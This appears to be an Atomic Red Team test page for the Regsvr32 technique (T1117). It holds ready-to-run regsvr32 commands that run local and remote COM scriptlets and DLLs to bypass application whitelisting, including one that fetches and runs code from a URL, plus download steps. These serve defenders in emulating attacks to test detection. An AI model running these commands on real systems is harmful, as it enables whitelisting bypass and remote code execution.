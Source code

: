 # T1117 - Regsvr32
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1117)
<blockquote>Regsvr32.exe is a command-line program used to register and unregister object linking and embedding controls, including dynamic link libraries (DLLs), on Windows systems. Regsvr32.exe can be used to execute arbitrary binaries. (Citation: Microsoft Regsvr32)

Adversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that may not monitor execution of, and modules loaded by, the regsvr32.exe process because of whitelists or false positives from Windows using regsvr32.exe for normal operations. Regsvr32.exe is also a Microsoft signed binary.

Regsvr32.exe can also be used to specifically bypass process whitelisting using functionality to load COM scriptlets to execute DLLs under user permissions. Since regsvr32.exe is network and proxy aware, the scripts can be loaded by passing a uniform resource locator (URL) to file on an external Web server as an argument during invocation. This method makes no changes to the Registry as the COM object is not actually registered, only executed. (Citation: LOLBAS Regsvr32) This variation of the technique is often referred to as a "Squiblydoo" attack and has been used in campaigns targeting governments. (Citation: Carbon Black Squiblydoo Apr 2016) (Citation: FireEye Regsvr32 Targeting Mongolian Gov)

Regsvr32.exe can also be leveraged to register a COM Object used to establish Persistence via [Component Object Model Hijacking](https://attack.mitre.org/techniques/T1122). (Citation: Carbon Black Squiblydoo Apr 2016)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Regsvr32 local COM scriptlet execution](#atomic-test-1---regsvr32-local-com-scriptlet-execution)

- [Atomic Test #2 - Regsvr32 remote COM scriptlet execution](#atomic-test-2---regsvr32-remote-com-scriptlet-execution)

- [Atomic Test #3 - Regsvr32 local DLL execution](#atomic-test-3---regsvr32-local-dll-execution)


<br/>

## Atomic Test #1 - Regsvr32 local COM scriptlet execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| filename | Name of the local file, include path. | Path | PathToAtomicsFolder&#92;T1117&#92;src&#92;RegSvr32.sct|


#### Attack Commands: Run with `command_prompt`! 


```cmd
regsvr32.exe /s /u /i:#{filename} scrobj.dll
```




#### Dependencies:  Run with `powershell`!
##### Description: Regsvr32.exe must exist on disk at specified location (#{filename})
##### Check Prereq Commands:
```powershell
if (Test-Path #{filename}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{filename}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1117/src/RegSvr32.sct" -OutFile "#{filename}"
```




<br/>
<br/>

## Atomic Test #2 - Regsvr32 remote COM scriptlet execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | URL to hosted sct file | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/src/RegSvr32.sct|


#### Attack Commands: Run with `command_prompt`! 


```cmd
regsvr32.exe /s /u /i:#{url} scrobj.dll
```






<br/>
<br/>

## Atomic Test #3 - Regsvr32 local DLL execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_name | Name of DLL to Execute, DLL Should export DllRegisterServer | Path | PathToAtomicsFolder&#92;T1117&#92;bin&#92;AllTheThingsx86.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
IF "%PROCESSOR_ARCHITECTURE%"=="AMD64" (C:\Windows\syswow64\regsvr32.exe /s #{dll_name}) ELSE ( regsvr32.exe /s #{dll_name} )
```




#### Dependencies:  Run with `powershell`!
##### Description: AllTheThingsx86.dll must exist on disk at specified location (#{dll_name})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_name}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1117/bin/AllTheThingsx86.dll" -OutFile "#{dll_name}"
```




<br/>
